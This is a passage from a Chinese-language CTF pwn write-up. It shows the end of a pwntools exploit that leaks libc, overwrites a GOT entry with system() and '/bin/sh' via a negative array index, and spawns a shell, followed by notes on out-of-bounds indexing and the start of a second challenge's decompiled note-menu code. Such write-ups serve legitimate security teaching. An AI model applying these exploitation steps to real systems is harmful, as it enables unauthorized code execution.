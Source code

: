 ```python
r.sendline(str(int("-0xa8",16)))
libc_base=pri_ext-libc.sym["printf"]
print(hex(libc_base))
system_add=libc.sym["system"]+libc_base
pause()
r.send(p64(system_add)+b"/bin/sh\x00")
og_add=0xf03a4+libc_base
pause()
r.interactive()
```

另外还需要注意一点:不要太过于依赖IDA的F5.这题提供的地址在got表后面,虽然理论上来说C是不支持负数下标的(况且python的负数下标也不是让你去访问数组外面的东西),但切到汇编代码显示就可以发现这里的"数组"本质上也只是地址和相对偏移而已,你给它提供一个负数"下标",它也不会给你弹error.

编辑:自己写了个程序试了下,C++对数组越界是完全不管不顾的...不过C++要是真的去管这堆破事,怕不是要和python一样慢了(

#### 2:[长城杯样题]xueba

checksec,发现保护全开.之后用ida看一下代码:

```c++
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("Welcome to the xueba note system");
  while ( 1 )
  {
    menu();
    _isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        add_note();
        break;
      case 2:
        show_note();
        break;
      case 3:
        delete_note();
        break;
      case 4:
        change_name();
        break;
      case 5:
        puts("Bye bye,hope you get good grades");
        exit(0);
      default:
        puts("Invalid option!");
        exit(0);
    }
  }
}
```
